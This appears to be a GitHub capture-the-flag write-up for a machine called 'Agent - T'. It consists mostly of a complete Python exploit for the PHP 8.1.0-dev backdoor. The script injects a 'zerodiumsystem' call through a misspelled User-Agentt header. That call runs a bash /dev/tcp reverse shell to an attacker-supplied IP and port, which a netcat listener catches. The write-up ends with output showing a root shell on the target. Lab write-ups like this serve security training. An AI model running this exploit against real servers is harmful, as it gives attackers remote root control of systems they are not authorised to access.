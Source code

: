 # Agent - T

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/bb1f8684-b48d-408a-83de-24e13456ea15)


#### PHP/8.1.0-dev RCE vulnerable

```
#!/usr/bin/env python3
import os, sys, argparse, requests

request = requests.Session()

def check_target(args):
    response = request.get(args.url)
    for header in response.headers.items():
        if "PHP/8.1.0-dev" in header[1]:
            return True
    return False

def reverse_shell(args):
    payload = 'bash -c \"bash -i >& /dev/tcp/' + args.lhost + '/' + args.lport + ' 0>&1\"'
    injection = request.get(args.url, headers={"User-Agentt": "zerodiumsystem('" + payload + "');"}, allow_redirects = False)

def main(): 
    parser = argparse.ArgumentParser(description="Get a reverse shell from PHP 8.1.0-dev backdoor. Set up a netcat listener in another shell: nc -nlvp <attacker PORT>")
    parser.add_argument("url", metavar='<target URL>', help="Target URL")
    parser.add_argument("lhost", metavar='<attacker IP>', help="Attacker listening IP",)
    parser.add_argument("lport", metavar='<attacker PORT>', help="Attacker listening port")
    args = parser.parse_args()
    if check_target(args):
        reverse_shell(args)
    else:
        print("Host is not available or vulnerable, aborting...")
        exit
    
if __name__ == "__main__":
    main()
```
![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/2b86db8e-928e-44d6-9fde-848f0c677c89)

![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/fbd1904a-6e0d-44c4-ba76-daf1f30abb99)

` root@3f8655e43931:/var/www/html# whoami
whoami
root
`




